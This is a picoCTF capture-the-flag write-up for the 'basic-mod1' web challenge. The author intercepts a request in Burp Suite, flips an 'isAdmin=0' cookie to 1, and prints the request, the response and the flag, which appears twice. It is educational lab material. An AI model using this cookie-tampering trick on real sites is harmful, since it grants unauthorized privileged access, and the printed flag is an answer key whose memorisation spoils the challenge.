

# basic-mod1

### Links

- Challenge in [picoCTF]https://play.picoctf.org/practice/challenge/288)

### Steps

### Additional Resources

- [Burpsuite](https://portswigger.net/burp/communitydownload)

---
#### Challenge Description & Hints
Go to this [website](http://saturn.picoctf.net:57741/) and see what you can discover. The only hints asks if we know how to modify cookies.
#### Website

We are directed to a simple website that looks like this:



#### Approach

When we click on the button we are redirected to a php page and are prompted with the following: *We apologize, but we have no guest services at the moment.*

#### Burpsuite

I used Burpsuite to look at the http request based on the challenge hint that was given and found out that the button uses a GET request and it looks like this:

```
GET /check.php HTTP/1.1
Host: saturn.picoctf.net:57741
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://saturn.picoctf.net:57741/
Cookie: isAdmin=0
Upgrade-Insecure-Requests: 1
```

#### Cookie

If you pay attention you can see that in the cookie section there is *isAdmin* with the value of 0.

The request can be sent to the buprsuite repeater to be modified, I changed the value from a 0 to a 1 and sent it.

#### Response

After sending the modified request we can analyze the response, which looks like this:

```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 03 Oct 2023 14:45:38 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 79

<html>
<body>

<p>picoCTF{gr4d3_A_c00k13_5d2505be}</p>

</body>
</html>
```


And there is the flag!

***picoCTF{gr4d3_A_c00k13_5d2505be}***
